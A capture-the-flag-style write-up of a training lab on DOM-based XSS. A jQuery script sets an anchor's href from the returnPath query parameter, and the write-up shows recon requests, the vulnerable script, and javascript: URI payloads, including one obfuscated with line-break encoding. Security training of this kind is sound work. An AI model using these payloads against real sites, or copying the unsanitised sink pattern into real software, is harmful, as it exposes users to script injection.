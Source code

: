 ### Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

#### Recon
---
**Request:**
```http
GET /feedback?returnPath=test HTTP/2
Host: 063.web-security-academy.net

...Omitted for Brevety...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 7294

...Omitted for Brevety...
```
`Inspecting the web page content`
```html
...Omitted for Brevety...

<a id="backLink" href="test">Back</a>

<script>
	$(function() {
		$('#backLink').attr("href",
		(new URLSearchParams(window.location.search)).get('returnPath'));
	});
</script>

...Omitted for Brevety...
```

**Affected Locations**
```
https://063.web-security-academy.net/feedback?returnPath=
```

```js
(new URLSearchParams(window.location.search)).get('returnPath'));
```
### Exploitation
----
**Payloads**
```
java%0a%0dscript:alert('XSS');
javascript:alert('XSS');
```
**Request:**
```http
GET /feedback?returnPath=java%0a%0dscript:alert(0); HTTP/2
Host: 063.web-security-academy.net

...Omitted for Brevety...
```
**Response:**
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 7294

...Omitted for Brevety...
```